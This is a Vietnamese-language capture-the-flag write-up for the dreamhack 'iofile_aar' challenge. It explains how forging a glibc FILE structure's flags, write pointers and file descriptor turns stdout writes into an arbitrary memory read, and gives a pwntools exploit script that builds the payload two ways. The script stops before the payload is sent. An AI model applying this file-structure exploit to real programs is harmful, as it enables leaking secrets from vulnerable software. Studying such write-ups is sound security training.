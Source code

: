 - trong hàm này , dữ liệu được ghi bằng cách gọi syscall write . các tham số bao gồm ```_file_no  , data từ io_write_base và biến todo là kết quả của phép trừ _IO_write_base khỏi _IO_write_ptr.```

- tóm lại ta sẽ cần setup 3 thằng này 

```cs
write(f->_fileno, _IO_write_base, _IO_write_ptr - _IO_write_base);
```

- nếu hoạt động bình thường , nó sẽ thực hiện việc ghi với kích thước ```_IO_write_ptr - _IO_write_base bắt đầu từ _IO_write_base```  , tức là _fileno -> stdout  và lưu địa chỉ cần đọc vào ```_IO_write_base``` , sau đó tăng thêm kích thước đọc cho ```_IO_write_ptr``` sẽ cho phép đọc từ 1 giá trị tùy ý

### EXPLOIT

- mục tiêu rõ ràng là ghi đè ```fd``` và setup 3 đối số để đọc dữ liệu chứa flag

```cs
write(f->_fileno, _IO_write_base, _IO_write_ptr - _IO_write_base);
```

- flag sẽ là ``` _IO_MAGIC và _IO_IS_APPENDING``` để bypass xác thực flag

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iofile_aar_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

#p = process()
p = remote('host1.dreamhack.games', 24481)

flag_buf = 0x00000000006010A0

def way1(flag_buf):
    payload = p64(0xfbad0000 | 0x800)  #flags
    payload += p64(0) #read_ptr
    payload += p64(flag_buf) # read_end
    payload += p64(0)  #read_base
    payload += p64(flag_buf)  # write base
    payload += p64(flag_buf + 0x300) # write_ptr
    payload += p64(0) # write_end
    payload += p64(0) # buf_base
    payload += p64(0) # buf end
    payload += p64(0)*5
    payload += p64(1) # stdout
    return payload



def way2(flag_buf):
    fp =  FileStructure()
    fp.flags = 0xfbad0000 | 0x800
    fp._IO_read_end = flag_buf
    fp._IO_write_base = flag_buf
    fp._IO_write_ptr = flag_buf + 0x300
    fp.fileno = 1
    return bytes(fp)[:120]

payload = way2(flag_buf)

```